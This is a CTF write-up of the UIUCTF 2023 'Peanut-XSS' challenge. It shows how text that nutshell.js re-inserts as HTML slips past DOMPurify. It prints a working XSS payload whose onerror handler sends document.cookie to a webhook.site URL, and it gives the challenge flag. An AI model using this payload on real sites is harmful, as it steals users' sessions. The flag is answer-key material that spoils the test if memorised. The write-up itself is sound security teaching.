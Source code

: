 # Peanut-XSS (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "Nutshell is pretty cool. Want to test it out?"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a DOM XSS.

## Exploring the challenge

The only web page available uses <code>nutshell.js</code>, a tool used to make "expandable, embeddable explanations". This tool takes the HTML specified 
inside the GET parameter <code>nutshell</code> and renders and makes expandable all links that start with <code>:</code>. These links must refer to a a Youtube video, 
a section of a Wikipedia article or a section of any web page (even the same one). To do this, the url specified in the <code>href</code> attribute must be of the 
following format: <code>http[s]?://domain_name/path#text</code>, where <code>text</code> is the text inside a section tag (<code><h\*></code>).
All elements present under this section are shown inside the produced baloon.

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/364d3adc-0c39-4743-a710-834dfdd3842d)

![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/dda8e0b1-8778-4ef7-ab3b-ad46a8a28358)

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/f35b95c9-4ea8-4040-9697-bbe54f00409c)

A user can send any url to the admin bot. It doesn't trigger any user event, so a possible XSS must be defined so that it executes automatically. 

## Attack
The HTML defined inside the nutshell parameter passes through this code:
```javascript
const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "HTMLmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```
The HTML, before being parsed by nutshell.js, is DOMPurified.
Looking at the <code>nutshell.js</code>([[1]](#1)) we can see this piece of code:
```javascript
// Get an array of all links, filtered by if the text starts with a :colon
        let expandables = [...dom.querySelectorAll('a')].filter(
            link => (link.innerText.trim().indexOf(':')==0)
        );

        // Turn each one into an Expandable!
        expandables.forEach((ex)=>{

            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");

            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
...
```
These instructions are executed as soon as the script is loaded, so without needing the user to click on the expandable link. It takes the text specified after the colon 
inside the anchor tag and paste it inside a <code>span</code> element with innerHTML. This element is then appended to the page. 
We can't just define the malicious HTML inside the anchor tag for two reasons: the innerText only refers to text and the HTML defined inside the nutshell parameter is 
purified by DOMPurify from the page itself. We should define a text that can be interpreted as HTML, but is not HTML. How? Obfuscation!
In order to trigger an XSS, a code like this: <code>\</span\>\<img src onerror='fetch("https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie="+document.cookie)'/\>\<span\></code> should be written like this: 
<code>\&lt;/span\&gt;\&lt;img src onerror='fetch("<span>https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=</span>"+document.cookie)'/\&gt;\&lt;span\&gt;</code>. So:
```HTML
<HTML>
<body>
    <h2>To write a section,</h2>
    <p>just use headings & paragraphs like this! Then…</p>
    <h2>To embed a section,</h2>
    <p>just make a link with :colon at the front… <a href="#ToWriteASection">:&lt;/span&gt;&lt;img src onerror=&#39;fetch(&quot;https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=&quot;+document.cookie)&#39;/&gt;&lt;span&gt;</a>!</p>
</body>
</HTML>
```
If we click on the preview button, the client is redirected to the same page but with nutshell parameter containing the malicious HTML. 
The XSS should be triggered. If we send the page's url to the admin bot, its cookie (the flag) is obtained.

![peanut_xss_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/4a45e29f-728b-4ce3-9390-19aa51fafece)


Flag is <code>uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}</code>

## References
<a id="1">[1]</a>
https://github.com/ncase/nutshell/blob/main/nutshell.js
